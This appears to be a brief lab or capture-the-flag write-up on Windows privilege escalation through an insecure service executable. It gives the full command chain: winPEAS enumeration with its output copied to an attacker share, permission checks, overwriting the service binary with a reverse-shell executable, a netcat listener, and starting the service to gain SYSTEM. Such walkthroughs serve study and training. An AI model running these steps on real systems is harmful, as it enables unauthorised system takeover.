





1x4 Service - Insecure Service Executable

## Service - Insecure Service Executable

```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt
copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt
cat wpeas_services_op.txt
```
Identified 1 service mis-configuration



```bash
sc qc filepermsvc
```



```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```



```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```



```bash
sudo nc -nvlp 53
net start filepermsvc
```


**Got the system**


